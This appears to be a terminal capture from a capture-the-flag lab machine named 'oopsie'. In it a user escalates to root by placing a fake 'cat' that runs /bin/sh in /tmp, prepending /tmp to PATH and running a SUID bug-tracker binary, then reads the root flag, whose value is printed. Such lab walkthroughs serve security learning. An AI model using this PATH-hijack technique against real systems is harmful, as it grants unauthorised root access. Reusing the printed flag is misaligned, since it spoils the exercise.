 ```bash
robert@oopsie:~$ cd/tmp
robert@oopsie:/tmp$
robert@oopsie:/tmp$ echo '/bin/sh' > cat
robert@oopsie:/tmp$ chmod +x cat
robert@oopsie:/tmp$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
robert@oopsie:/tmp$ export PATH=/tmp:$PATH
robert@oopsie:/tmp$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
robert@oopsie:/tmp$ /usr/bin/bugtracker
/usr/bin/bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: 1
1
---------------

# 
# cd /root
cd /root
# ls
ls
reports  root.txt
# cat root.txt
cat root.txt
# vi root.txt
vi root.txt
af13b0bee69f8a877c3faf667f7beacf
```
